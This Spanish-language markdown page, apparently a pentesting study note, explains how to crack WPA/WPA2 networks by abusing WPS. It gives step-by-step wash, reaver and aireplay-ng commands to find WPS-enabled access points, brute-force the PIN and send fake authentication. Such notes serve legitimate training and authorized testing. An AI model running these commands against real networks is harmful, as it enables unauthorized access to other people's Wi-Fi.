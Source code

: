 # WPA | WPA2 Cracking

- Ambos pueden ser crakeados por los mismos métodos.
- Creado para "mitigar" los problemas presentados en WEP.
- Más seguro.
- Cada paquete es cifrado usando una llave única temporal.
- Los paquetes no contienen información útil.

## Abusando WPS

### Consideraciones

- WPS es una característica que puede ser usada en WPA y WPA2.
- Permite a los clientes conectarse sin proporcionar contraseña.
- La autenticación es realizada usando un pin de 9 dígitos.
  - Siendo 8 dígitos una longitud muy pequeña.
  - Se puede intentar probar con todos los pins probables en un periodo relativamente corto.
  - Posteriormente se puede usar el pin WPS para calcular la contraseña actual.

*Nota: Esto sólo funcionaría si el router está configurado para no usar PBC (Push Button Authentication).*

### Ejecución

1. Visualizar las redes que tengan WPS habilitado

```bash
wash --interface <interfaz en modo monitor>
wash --interface mon0
```

2. Lanzar ataque de fuerza bruta.

```bash
reaver --bssid <MAC Address de objetivo> --channel <canal del AP> --interface <interfaz en modo monitor> -vvv --no-associate
reaver --bssid F8:23:B2:B9:50:A8 --channel 1 --interface wlan1 -vvv --no-associate
```

*Nota: Tener en consideración que kali cuenta con versiones más recientes lo que puede causar un error similar a `send_packet called from resend_last_packet() send.c:161` si es el caso se recomienda usar la versión 1.6.1, incluida en [el repositorio](../files/reaver_1_6_1).*

3. Lanzar ataque de `Fake Authentication`.

```bash
aireplay-ng --fakeauth 30 -a <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --fakeauth 30 -a F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0
```

